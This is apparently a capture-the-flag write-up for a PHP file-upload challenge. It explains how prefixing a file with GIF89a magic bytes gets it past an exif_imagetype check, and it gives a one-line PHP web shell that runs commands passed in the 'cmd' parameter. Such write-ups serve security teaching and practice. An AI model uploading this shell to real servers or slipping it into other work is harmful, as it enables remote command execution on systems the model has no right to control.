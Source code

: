 # Upload 1

## Write-up

The source code is also provided for this challenge, we see that we have the same PHP web application with the same upload feature, besides, this time, a check has been added:
![added check in source code](./images/source-code.png)
By looking at the PHP documentation, we find that `exif_imagetype` function reads first bytes of the input file and returns the numeric value corresponding to the file type according to the table given below in the documentation
![](./images/.png)
Good news are that this function only looks to first bytes.
So, our uploaded file has to:
- pass the check => first bytes of the file has to be same as one of the valid images specified in the table above.
- and be a valid php source code file so that apache executes it, so that we can get our RCE.  

One way to proceed is to make our file a valid GIF image, by adding the magic bytes of GIF format to our file and make it look a GIF for `exif_imagetype`.

## Exploit
We Upload a file named `x.php` starting with following magic bytes: `GIF89a` 
    followed by the our PHP code:
```php 
<?php passthru($_GET['cmd']); ?>
```
the file containing the payload is given [here](./shell.php).

